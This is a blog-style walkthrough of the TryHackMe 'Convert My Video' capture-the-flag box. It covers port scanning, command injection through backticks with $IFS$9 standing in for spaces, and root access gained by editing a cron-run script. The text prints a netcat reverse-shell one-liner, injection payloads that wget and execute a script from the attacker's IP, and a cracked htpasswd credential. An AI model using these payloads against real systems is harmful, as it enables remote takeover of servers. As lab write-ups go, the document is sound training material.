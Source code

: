 ```yaml
---
layout: post
title: THM Convert My Video writeup
excerpt_separator: <!--more-->
---
```

<img src="/img/Convertmyvideo/0.head.png">
<!--more--> 
<p></p>
<a href="https://tryhackme.com/room/convertmyvideo" target="_blank" > Click here to access this box on tryHackMe.com</a>
<hr>


<p> Strat by enumerating  ports with a basic NMAP Scan.</p>
<p>Below we see that ports 22 and 80 are open. Let’s enumerate them further.</p>
<img src="/img/Convertmyvideo/1.nmap-scan.png">

<p>We can see that ports 22 is running openSSH ver 7.6p1 and port 80 is running Apache 2.4.29. Next let’s use namp to scan all 65k ports. </p>
<img src="/img/Convertmyvideo/2.namp-scan-2.png">

<p>This will take awhile so while we wait let’s navigate over to port 80 in a web browser. </p>
<img src="/img/Convertmyvideo/3.namp-scan.png">

<p>There’s a simple page with a text box and a button that says convert. My first thought is to check the source code and use gobuster to find any hidden directories. First let start up gobuster.</p>
<img src="/img/Convertmyvideo/4.index-page.png">

<p>Using gobuster I’m going to search for any files with a .txt,.php and .mp3 extension because of the clues on site. While that’s running let’s check source code and check back in on the nmap scan.</p>
<img src="/img/Convertmyvideo/5.gobuster-start.png">

<p>Namp only shows ports 22 and 80 open. Next i’m going to review the websites source code.</p>
<img src="/img/Convertmyvideo/6.nmap-scan3.png">

<p>After spending some time  hours fuzzing the input I intercepted  the post request in burp suite and tried some basic command line injections.  I was able to successfully get a response back from the server by encapsulating the id command with backtick ( `id` ) not to be confused with single quotes (‘id’). Below is the output from the injection command in burp suite </p>
<img src="/img/Convertmyvideo/7.comand-line-injection.png">

<p>Something I struggled with for a bit was the command injection. It would not accept a space or tab so I could issue the command ‘ls’ but ‘ls -la’ would fail. I tried things like URL encoding the space (%20) `ls%20-ls`, but that didn't work either. I needed to find an alternate argument separator. What ultimately ended up working was $IFS$9. The $IFS is an environmental variable  which is space by default. Additionally we add $9, which is just a holder of the ninth argument of the current system shell process (which is always an empty string). </p>
<img src="/img/Convertmyvideo/8.fuzzed-injection.png">

<p>Let’s see if we can get a nc reverse shell to call back to us. First we setup our listener on our local machine.</p>
<img src="/img/Convertmyvideo/9.nc-listen.png">

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.3.153 4444 >/tmp/f
`wget${IFS}10.13.3.153:7777/nc-revshell-oneline`
`bash${IFS}nc-revshell-oneline`
python -c 'import pty; pty.spawn("/bin/bash")'

itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/ = jessie

/var/www/html/admin/.htpasswd  

<p>Let’s try and upload a reverse shell file using php.</p>
<p>here is the php code I’m going to attempt to upload</p>
<img src="/img/Convertmyvideo/10.rev-shell-code.png">

<p>Now let's host this file on our local machine</p>
<img src="/img/Convertmyvideo/11.python-server.png">

<p>Back to burp suite let’s issue a wget to download the file to the victim machine</p>
<img src="/img/Convertmyvideo/12.wget-from-burp.png">

<p>Now when I tried to call the reverse shell code by abusing the command line injection command in burp suite (`./name-of-my-file’) it wouldn’t work.I’m assuming the period (.) in the command was causing the issue. What ultimately work was calling `bash${IFS}name-of-uploded-shell-code`.</p>
<p> Below I setup a listener on my local machine. </p> 
<p> And then issue the command line injection payload in burp suite.</p>
<img src="/img/Convertmyvideo/13.lister-4444.png">
<img src="/img/Convertmyvideo/14.burp-command-calling-the-nc-file.png">

<p>Now we have a shell as www-data. Let’s cat the user flag and begin our enumeration for privesc.</p>
<img src="/img/Convertmyvideo/15.user-flag.png">

<p>Just poking around in the filesystem, I found a file name clean.sh. When I read out this file it was removing everything in the downloads folder. Although it doesn't show  cron job  was calling this - it seemed suspect, so I thought I’d give it a shot. Since www-data was the owner of the file I changed the mode of the clean.sh file to 777 so I could modify the file  and change the bash command from ‘rm -fr downloads’ to the reverse shell one liner I used earlier - but with a different port number. </p>
<img src="/img/Convertmyvideo/16.clean.sh-code.png">


<p>I’m not sure if it was just luck but almost instantly after setting up my nc listener on my local machine I got a call back and it was running as the root user.</p>
<img src="/img/Convertmyvideo/17.root.txt.png">

<p>This box took me a lot longer than expected. I spent about 4 hours on the initial shell, and I think I may have lucked out on the privesc. Overall, I enjoyed the box and learned something new along the way. Kudos to the creator.  </p> 
